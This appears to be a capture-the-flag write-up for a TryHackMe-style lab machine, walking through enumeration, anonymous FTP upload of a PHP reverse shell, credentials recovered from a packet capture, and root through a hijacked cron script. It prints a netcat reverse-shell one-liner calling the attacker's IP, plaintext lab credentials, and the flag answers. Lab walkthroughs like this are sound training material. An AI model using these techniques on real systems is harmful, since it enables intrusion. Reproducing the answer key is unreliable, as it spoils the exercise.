







# Author:Panagiotis Fiskilis/Neuro

### Description: ###

<h3>Solution:</h3>

Machine ip=10.10.111.195

**Initial Enum:**

```bash
nmap -sV -sC 10.10.111.195
gobuster dir -u "http://10.10.111.195/" -w /opt/1337/directory-list-2.3-medium.txt
```

*Nmap results:*

Ports:21,22,80




We found that the server has Anonymous ftp enabled:

```bash
ftp 10.10.111.195
Username:anonymous
password:
mkdir FTP_Files
```

Downloaded the files from ftp and got some memes

*Gobuster results:*


We found a <code>files</code> directory where we can access the fpt files.

We can upload a php reverse shell and access it via the http instance

Now we use <code>netcat</code>

**Foothold:**

```bash
nc -nlvp 4444
```



We will use python3 to get an interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
/bin/bash
```

We found the first flag on the root(/) directory



Inside the root(/) directory we find an <code>incidents</code> directory, inside it we find a <code>suspicious.pcapng</code>



We download it and analyze it with <code>wireshark</code> and get from the tcp streams the user credentials

```
User:lennie
password:c4ntg3t3n0ughsp1c3
```

We elevate our privileges and get user lennie

```bash
su lennie #pass=c4ntg3t3n0ughsp1c3
cat user.txt
```



We will upload <code>linpeas</code> to elevate our privileges

**NOTE:** I also used ssh to get a stable shell

I also downloaded <code>pspy64</code>

Found an interesting binary with <code>pspy</code>



Also linpeas found:

```
/etc/print.sh
```

I changed <code>print.sh</code> to this:

```bash
#!/bin/bash
echo "Done!"
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.68.187 5555 >/tmp/f
```

And activated the root shell with a nc listener and by executing the print.sh script



# Flags:

**Task 1:**

Q1: ```What is the secret spicy soup recipe?```

A: ```love```

Q2: ```What are the contents of user.txt?```

A: ```THM{03ce3d619b80ccbfb3b7fc81e46c0e79}```

Q3: ```What are the contents of root.txt?```

A: ```THM{f963aaa6a430f210222158ae15c3d76d}```

**Task 2:**

Q1: ```Congratulations!```

A: No answer needed
